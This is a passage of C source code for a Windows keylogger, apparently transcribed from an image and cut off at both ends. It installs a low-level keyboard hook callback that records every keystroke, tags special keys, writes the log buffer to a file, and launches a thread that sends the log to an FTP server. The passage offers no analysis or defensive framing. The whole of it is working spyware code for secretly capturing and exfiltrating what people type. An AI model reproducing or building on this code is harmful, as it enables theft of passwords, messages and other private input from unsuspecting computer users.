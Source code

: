 
	ExitThread(0);
}

// callback function when key is pressed
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
	BYTE lpKeyState[256] = { 0 };
	CHAR szKey[1];
	
	// wParam and lParam have info about keyboard message
	if (nCode == HC_ACTION && nLogFlag == 1) {
		// if key is pressed or held
		if (wParam == WM_KEYDOWN || wParam == WM_SYSKEYDOWN) {

			// map keyboard state
			if (GetKeyboardState(lpKeyState) == FALSE) {
				Fatal(L"Failed to get keyboard state");
			}
			ToAscii(kbd->vkCode, kbd->scanCode, lpKeyState, szKey, 0);

			// get string length of log buffer
			DWORD dwLogBufLen = strlen(lpLogBuf);

			// if timeout or if log buffer has hit max size
			// should thread timer but dunno how to lock variables
			if (GetTickCount() - dwTime >= TIMEOUT || dwLogBufLen == MAX_LOG_SIZE) {
				// write out to file
				SetFilePointer(ghFile, 0, NULL, FILE_END);
				WriteFile(ghFile, lpLogBuf, dwLogBufLen, NULL, NULL);
				// reset timer
				dwTime = GetTickCount();
				// reset log buffer size
				lpLogBuf = HeapReAlloc(ghLogHeap, HEAP_ZERO_MEMORY, lpLogBuf, BUF_SIZ + 1);
				dwLogBufSize = BUF_SIZ + 1;
				if (lpLogBuf == NULL) {
					Fatal("Reset log buffer");
				}
				
				// create thread to send log file to ftp server
				if (CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)FTPSend, NULL, 0, NULL) == NULL) {
					Fatal("Create thread");
				}
			// if string length of log buffer is approaching max size
			} else if (dwLogBufLen >= dwLogBufSize - 1) {
				// double max size
				// should not go over MAX_LOG_SIZE
				lpLogBuf = HeapReAlloc(ghLogHeap, 0, lpLogBuf, dwLogBufSize * 2);
				if (lpLogBuf == NULL) {
					Fatal("ReAlloc log buffer");
				}
				dwLogBufSize *= 2;
			}
			
			// copy vkCode into log buffer
			switch (kbd->vkCode) {
				case VK_BACK:
					strncat(lpLogBuf, "[BSPACE]", 8);
					break;
				case VK_SHIFT:
					strncat(lpLogBuf, "[SHIFT]", 7);
					break;
				case VK_RETURN:
					strncat(lpLogBuf, "[ENTER]", 7);
					break;
				case VK_CAPITAL:
					strncat(lpLogBuf, "[CAPS]", 6);